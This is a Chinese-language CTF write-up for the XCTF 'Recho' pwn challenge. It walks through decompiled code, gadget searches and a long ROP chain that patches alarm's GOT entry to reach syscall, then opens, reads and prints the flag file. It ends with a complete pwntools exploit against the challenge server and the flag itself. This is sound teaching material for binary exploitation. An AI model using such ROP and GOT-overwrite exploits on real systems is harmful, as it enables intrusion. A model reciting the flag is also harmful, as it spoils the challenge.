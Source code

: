 # Recho

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=af3cf98d-47ff-4645-8829-808fc76b57cc_2)

这题没做出来。虽然本质上还是rop，但是我已经被绕晕了，这是我萌新阶段见过最长的rop链。

程序就跟它的名字一样，会重新打印输入的内容。第一次输入是要输入的字符串的长度，第二次输入是要打印的字符串。checksec看看。

-   Arch:     amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)

保护还行，难度不高。反编译main函数看看。

```c
undefined8 main(void)
{
  ssize_t sVar1;
  char local_48 [16];
  undefined local_38 [40];
  int local_10;
  int local_c;
  Init();
  write(1,"Welcome to Recho server!\n",0x19);
  while( true ) {
    sVar1 = read(0,local_48,16);
    if (sVar1 < 1) break;
    local_c = atoi(local_48);
    if (local_c < 16) {
      local_c = 16;
    }
    sVar1 = read(0,local_38,(long)local_c);
    local_10 = (int)sVar1;
    local_38[local_10] = 0;
    printf("%s",local_38);
  }
  return 0;
}
```

Init函数内部如下。

```c
void Init(void)
{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  alarm(0x3c);
  return;
}
```

不仔细看还以为就是个普通的栈溢出。但是定睛一看发现，栈溢出位于一个while死循环，想让这个函数返回并开始执行构造的rop链只能ctrl+c。好消息是这样确实能执行一次rop链，坏消息是只有一次，程序直接被终止了，不可能再有漏洞的二次利用了。

所以我们需要一次到位。拿shell就不用想了，泄露地址+调用system怎么都要两次。之前拿shell拿得太快乐了，都忘了我们的目标是flag而不是shell。想个办法读取出flag就够了。于是我们就踏上了超长rop链的不归路。

c语言里使用open来打开文件。在linux中，write、read、open、close、alarm等都是由系统调用的，算是一个知识点，不过看程序汇编也可以知道。在不知道这些函数的地址的情况下，可以将rax里放上要调用函数的系统调用号，然后调用syscall，参数的传递和其他函数一样。结果等同于调用函数的plt。open的系统调用号可以查到，为2。

说了这么多，我们该怎么调用open呢？换个问法，我们该怎么调用syscall呢？

- => 0x00007f2ccea3a5b0 <+0>:     endbr64 
   <br>0x00007f2ccea3a5b4 <+4>:     mov    $0x25,%eax
   <br>0x00007f2ccea3a5b9 <+9>:     syscall 
   <br>0x00007f2ccea3a5bb <+11>:    cmp    $0xfffffffffffff001,%rax
   <br>0x00007f2ccea3a5c1 <+17>:    jae    0x7f2ccea3a5c4 <alarm+20>
   <br>0x00007f2ccea3a5c3 <+19>:    ret    
   0x00007f2ccea3a5c4 <+20>:    mov    0x12e845(%rip),%rcx        # 0x7f2cceb68e10
   <br>0x00007f2ccea3a5cb <+27>:    neg    %eax
   <br>0x00007f2ccea3a5cd <+29>:    mov    %eax,%fs:(%rcx)
   <br>0x00007f2ccea3a5d0 <+32>:    or     $0xffffffffffffffff,%rax
   <br>0x00007f2ccea3a5d4 <+36>:    ret 

在alarm函数那里设个断点，gdb中可以看见调用alarm地址偏移5的地方使用了syscall（endbr64不算，这是一种特殊的保护机制，具体可以上网查。所以alarm从0x00007f2ccea3a5b4 <+4>开始，syscall的偏移就是9-4=5）。如果我们可以把alarm的调用地址加上五，那么再次调用alarm的时候实际调用的就是syscall了。这种方法就是got表改写。

找一下有没有关于add的gadget？

- ROPgadget --binary ctf --only 'add|ret'
  > 0x000000000040070d : add byte ptr [rdi], al ; ret 

这个不错，把rdi内存储的内容加上al里存储的内容。如果rdi里是alarm的got表里的地址，al是5，got表地址改写就成功了。插一嘴，got表可以改写的前提是RELRO防护为Partial RELRO。al是rax的一部分，pop rax相当于将值传到al里。

- ROPgadget --binary ctf --only 'pop|ret' | grep 'rax'
  > 0x00000000004006fc : pop rax ; ret

第一步改写就准备得差不多了。目前rop链如下。

```python
payload=b'a'*0x38
payload+=p64(prax)+p64(0x5)
payload+=p64(prdi)+p64(alarm_got)
payload+=p64(padd)
```

- ### open
  > 打开一个文件
  - 原型：int open(char *path,int access[,int auth]);
  - 参数
    > char *path 要打开的包含路径的文件名<br>
    > int access  为打开方式<br>
    > int auth   为访问权限

改完了就该用了。open函数的第一个参数是要打开的文件的路径名，估计在当前路径下所以直接传flag就好。程序里正好为我们准备了flag字符串。

-  ROPgadget --binary ctf --string 'flag'  
  > 0x0000000000601058 : flag

应该是出题人的提示。rop链继续增长。

```python
payload+=p64(prax)+p64(0x2)
payload+=p64(prdi)+p64(flag)
payload+=p64(prdx)+p64(0)
payload+=p64(prsi)+p64(0)+p64(0)
payload+=p64(alarm)
```

64位中，当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。rsi传入的0表示以只读方式打开文件，我不是很理解的是为啥要两个0。open的第三个参数在只读文件时是可选的，所以不传也行，传个0似乎也没啥影响。alarm此时已经被改为syscall，所以调用alarm就是调用syscall。

接下来读取打开的文件流，用read。read的plt地址可以查到，就不用系统调用了。read参数情况：read(fd,stdin_buffer,100),对照着上面的64位传参一个个压进去就行了。fd 的值一般是 3 开始(0,1,2好像是被系统保留了），依次增加。比如我 open 了两个文件，那么它们的 fd 分别为 3 和 4。写入的buffer区要找可读可写的，第一考虑bss段。ghidra里直接搜stdin就可以找到一段0x00601070。rop链还没有要停的意思。

```python
payload+=p64(prdi)+p64(3)      
payload+=p64(prsi)+p64(bss+0x500)+p64(0)
payload+=p64(prdx)+p64(100)
payload+=p64(readplt)
```

这边的rsi同样多压了个0。我实在不太懂栈，难道压rsi必须要这样吗？之前习惯调用puts，只用rdi，完全没考虑过rsi。这payload不是完全我的，自己改编并改了一些值试了一下，发现bss段必须加上0x500才能出flag。也不知道为啥，玄学吗？

bss段已经有了flag了。printf打印出来就能知道flag了。

```python
payload+=p64(prdi)+p64(bss+0x500)
payload+=p64(printf)
```

最终exp如下。

```python
from pwn import *
p=remote('61.147.171.105',52380)
prdi=0x4008a3
prsi=0x4008a1
prdx=0x4006fe
prax=0x4006fc
padd=0x40070d
alarm=4195824
readplt=4195840
printf=4195808
alarm_got=6295592
flag=0x601058
bss=0x601070
payload=b'a'*0x38
payload+=p64(prax)+p64(0x5)
payload+=p64(prdi)+p64(alarm_got)
payload+=p64(padd)
payload+=p64(prax)+p64(0x2)
payload+=p64(prdi)+p64(flag)
payload+=p64(prdx)+p64(0)
payload+=p64(prsi)+p64(0)+p64(0)
payload+=p64(alarm)
payload+=p64(prdi)+p64(3)      
payload+=p64(prsi)+p64(bss+0x500)+p64(0)
payload+=p64(prdx)+p64(100)
payload+=p64(readplt)
payload+=p64(prdi)+p64(bss+0x500)
payload+=p64(printf)
p.recvuntil('Welcome to Recho server!\n')
p.sendline(str(0x200))
payload=payload.ljust(0x200,b'\x00')
p.send(payload)
p.recv()
p.shutdown('write')
p.interactive()
```

0x200大小是为了保证远程机接收完全部的payload，可能会因为有缓存的问题导致覆盖不完整。一定要先recv一下，否则也出不了flag。shutdown实测write或者send都行。

- ### Flag
  > cyberpeace{cad64e96528da20d7f3f9644e2aa695f}